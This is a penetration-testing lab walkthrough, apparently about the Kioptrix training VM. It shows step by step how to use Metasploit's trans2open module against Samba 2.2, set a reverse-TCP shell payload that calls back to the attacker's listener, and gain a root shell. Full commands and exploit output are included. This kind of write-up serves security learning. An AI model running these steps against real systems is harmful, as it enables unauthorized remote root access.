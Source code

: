 # 👿 Gaining Root with Metasploit (Kioptrix)

After investigating the Samba 2.2 using searchsploit, we discovered a potential exploit called "trans2open," which seemed promising. We proceeded to use Metasploit by loading up msfconsole and entering the command "search trans2open":

```jsx
msf6 > search trans2open

Matching Modules
================

   #  Name                              Disclosure Date  Rank   Check  Description
   -  ----                              ---------------  ----   -----  -----------
   0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (*BSD x86)
   1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
   2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open Overflow (Mac OS X PPC)
   3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (Solaris SPARC)

Interact with a module by name or index. For example info 3, use 3 or use exploit/solaris/samba/trans2open
```

The search results provided several modules related to the trans2open exploit for different operating systems. We decided to use the Linux version, which has the index 1:

```jsx
msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see <https://docs.metasploit.com/docs/using-metasploit/ba>
                                      sics/using-metasploit.html
   RPORT   139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.179.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce
```

However, before running the exploit, we needed to configure some options. We checked the options using the "options" command:

```bash
msf6 exploit(linux/samba/trans2open) > options
```

The critical options that needed to be set were "RHOSTS" (the target host):

```bash
rhosts 192.168.179.129
```

After ensuring that the options were correctly set, we attempted to exploit the target by running the "exploit" command:

```jsx
msf6 exploit(linux/samba/trans2open) > exploit

[*] Started reverse TCP handler on 192.168.179.128:4444 
[*] 192.168.179.129:139 - Trying return address 0xbffffdfc...
[*] 192.168.179.129:139 - Trying return address 0xbffffcfc...
[*] 192.168.179.129:139 - Trying return address 0xbffffbfc...
[*] 192.168.179.129:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 192.168.179.129
[*] 192.168.179.129 - Meterpreter session 1 closed.  Reason: Died
[*] 192.168.179.129:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 192.168.179.129
[*] 192.168.179.129 - Meterpreter session 2 closed.  Reason: Died
[*] 192.168.179.129:139 - Trying return address 0xbffff8fc...
[*] Sending stage (1017704 bytes) to 192.168.179.129
[*] 192.168.179.129 - Meterpreter session 3 closed.  Reason: Died
[-] Meterpreter session 3 is not valid and will be closed
[*] 192.168.179.129:139 - Trying return address 0xbffff7fc...
[*] Sending stage (1017704 bytes) to 192.168.179.129
```

The exploit attempted different return addresses and stages, but it appeared that the Meterpreter sessions were being closed:

```jsx
[*] Sending stage (1017704 bytes) to 192.168.179.129
[*] 192.168.179.129 - Meterpreter session 1 closed.  Reason: Died
```

This could happen for several reasons. One possibility is that the exploit caused instability on the target system, leading to the termination of the Meterpreter session. It could also be due to the target system's security measures detecting and blocking the malicious activity. Further investigation would be needed to determine the exact cause of the session closure.

In some cases, brute-forcing attempts might lead to session closures if the target system detects and responds to multiple failed exploit attempts. In the given scenario, the user interrupted the bruteforce process after identifying a potential issue.

Notice this part:

```bash
Payload options (linux/x86/meterpreter/reverse_tcp):
```

When you see "/reverse\_tcp," it means we're using a staged payload.

Now, let's pick the payload:

Here, we're choosing and setting up a specific way to deliver our attack. By going with "/reverse\_tcp," we're using a method where the target computer talks back to us. It's like giving us a secret entrance, letting us control things more sneakily.

```jsx
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/
set payload linux/x86/adduser                         set payload linux/x86/shell/bind_ipv6_tcp
set payload linux/x86/chmod                           set payload linux/x86/shell/bind_ipv6_tcp_uuid
set payload linux/x86/exec                            set payload linux/x86/shell/bind_nonx_tcp
set payload linux/x86/meterpreter/bind_ipv6_tcp       set payload linux/x86/shell/bind_tcp
set payload linux/x86/meterpreter/bind_ipv6_tcp_uuid  set payload linux/x86/shell/bind_tcp_uuid
set payload linux/x86/meterpreter/bind_nonx_tcp       set payload linux/x86/shell/reverse_ipv6_tcp
set payload linux/x86/meterpreter/bind_tcp            set payload linux/x86/shell/reverse_nonx_tcp
set payload linux/x86/meterpreter/bind_tcp_uuid       set payload linux/x86/shell/reverse_tcp
set payload linux/x86/meterpreter/reverse_ipv6_tcp    set payload linux/x86/shell/reverse_tcp_uuid
set payload linux/x86/meterpreter/reverse_nonx_tcp    set payload linux/x86/shell_bind_ipv6_tcp
set payload linux/x86/meterpreter/reverse_tcp         set payload linux/x86/shell_bind_tcp
set payload linux/x86/meterpreter/reverse_tcp_uuid    set payload linux/x86/shell_bind_tcp_random_port
set payload linux/x86/metsvc_bind_tcp                 set payload linux/x86/shell_reverse_tcp
set payload linux/x86/metsvc_reverse_tcp              set payload linux/x86/shell_reverse_tcp_ipv6
set payload linux/x86/read_file                       
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.179.129  yes       The target host(s), see <https://docs.metasploit.com/docs/using-metasploit/ba>
                                      sics/using-metasploit.html
   RPORT   139              yes       The target port (TCP)

Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.179.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce
```

we can see that something new popped :

```jsx
Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.179.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

if i understand well, the last exploit worked but we did not specify to do anything and now we specified we wanted a reverse shell and this option popped

```jsx
CMD    /bin/sh          yes       The command string to execute
```

which indicated that it’s going to connect and then give us a shell, so if we run exploit now:

```jsx
msf6 exploit(linux/samba/trans2open) > exploit

[*] Started reverse TCP handler on 192.168.179.128:4444 
[*] 192.168.179.129:139 - Trying return address 0xbffffdfc...
[*] 192.168.179.129:139 - Trying return address 0xbffffcfc...
[*] 192.168.179.129:139 - Trying return address 0xbffffbfc...
[*] 192.168.179.129:139 - Trying return address 0xbffffafc...
[*] 192.168.179.129:139 - Trying return address 0xbffff9fc...
[*] 192.168.179.129:139 - Trying return address 0xbffff8fc...
[*] 192.168.179.129:139 - Trying return address 0xbffff7fc...
[*] 192.168.179.129:139 - Trying return address 0xbffff6fc...
[*] Command shell session 5 opened (192.168.179.128:4444 -> 192.168.179.129:32773) at 2023-12-05 15:46:55 -0500

[*] Command shell session 6 opened (192.168.179.128:4444 -> 192.168.179.129:32774) at 2023-12-05 15:46:57 -0500
[*] Command shell session 7 opened (192.168.179.128:4444 -> 192.168.179.129:32775) at 2023-12-05 15:46:58 -0500
[*] Command shell session 8 opened (192.168.179.128:4444 -> 192.168.179.129:32776) at 2023-12-05 15:46:59 -0500
whoami
root
```

We successfully rooted this machine gg!

